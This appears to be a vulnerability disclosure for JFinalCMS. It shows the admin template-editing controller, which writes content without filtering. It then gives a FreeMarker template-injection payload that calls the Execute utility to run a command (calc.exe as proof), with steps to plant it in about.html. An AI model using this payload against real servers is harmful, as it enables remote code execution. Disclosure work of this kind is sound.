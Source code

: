 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/jwillber/JFinalCMS

**Software:**

https://github.com/jwillber/JFinalCMS

**Vulnerability File:**

#### JFinalCMS-master\src\main\java\com\cms\controller\admin\TemplateController.java

```java
public void update() {
		String fileName = getPara("fileName");
		String directory = getPara("directory");
		String content = getPara("content");
		if (StringUtils.isBlank(fileName) || content == null) {
			render(CommonAttribute.ADMIN_ERROR_VIEW);
			return;
		}
		TemplateUtils.write(SystemUtils.getConfig().getTheme()+"/"+directory.replaceAll(",", "/")+"/"+fileName, content);
		FreeMarkerRender.getConfiguration().clearTemplateCache();
		redirect(getListQuery("/admin/template/list"));
	}
```

​	We have located the template editing function on the front-end.

![image-20241203184741148](img/image-20241203184741148.png)

​	In the audit code, we can see that there is no filtering in the process of modifying the template, so we can embed payload directly:

```html
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")} 
```

​	We choose to about.html this template file and write it to payload.

![image-20241203184912279](img/image-20241203184912279.png)

​	Save, and then visit the About page.

![image-20241203184949248](img/image-20241203184949248.png)